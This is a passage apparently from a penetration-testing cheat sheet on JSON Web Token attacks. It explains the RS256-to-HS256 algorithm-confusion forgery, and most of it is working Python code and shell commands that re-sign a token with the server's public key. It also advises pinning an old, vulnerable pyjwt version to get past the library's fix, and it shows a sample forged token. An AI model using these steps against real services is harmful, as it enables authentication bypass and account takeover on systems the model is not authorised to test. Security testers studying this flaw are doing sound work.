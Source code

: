 ```python
print( header+"."+payload+".")
```

## JWT Signature - RS256 to HS256

Because the public key can sometimes be obtained by the attacker, the attacker can modify the algorithm in the header to HS256 and then use the RSA public key to sign the data.

> The algorithm HS256 uses the secret key to sign and verify each message.
> The algorithm RS256 uses the private key to sign the message and uses the public key for authentication.

```python
import jwt
public = open('public.pem', 'r').read()
print public
print jwt.encode({"data":"test"}, key=public, algorithm='HS256')
```

:warning: This behavior is fixed in the python library and will return this error `jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret.`. You need to install the following version: `pip install pyjwt==0.4.3`.

Here are the steps to edit an RS256 JWT token into an HS256

1. Convert our public key (key.pem) into HEX with this command.

    ```powershell
    $ cat key.pem | xxd -p | tr -d "\\n"
    2d2d2d2d2d424547494e20505[STRIPPED]592d2d2d2d2d0a
    ```

2. Generate HMAC signature by supplying our public key as ASCII hex and with our token previously edited.

    ```powershell
    $ echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6IjIzIiwidXNlcm5hbWUiOiJ2aXNpdG9yIiwicm9sZSI6IjEifQ" | openssl dgst -sha256 -mac HMAC -macopt hexkey:2d2d2d2d2d424547494e20505[STRIPPED]592d2d2d2d2d0a

    (stdin)= 8f421b351eb61ff226df88d526a7e9b9bb7b8239688c1f862f261a0c588910e0
    ```

3. Convert signature (Hex to "base64 URL")

    ```powershell
    $ python2 -c "exec(\"import base64, binascii\nprint base64.urlsafe_b64encode(binascii.a2b_hex('8f421b351eb61ff226df88d526a7e9b9bb7b8239688c1f862f261a0c588910e0')).replace('=','')\")"
    ```

4. Add signature to edited payload

    ```powershell
    [HEADER EDITED RS256 TO HS256].[DATA EDITED].[SIGNATURE]
    eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6IjIzIiwidXNlcm5hbWUiOiJ2aXNpdG9yIiwicm9sZSI6IjEifQ.j0IbNR62H_Im34jVJqfpubt7gjlojB-GLyYaDFiJEOA
    ```
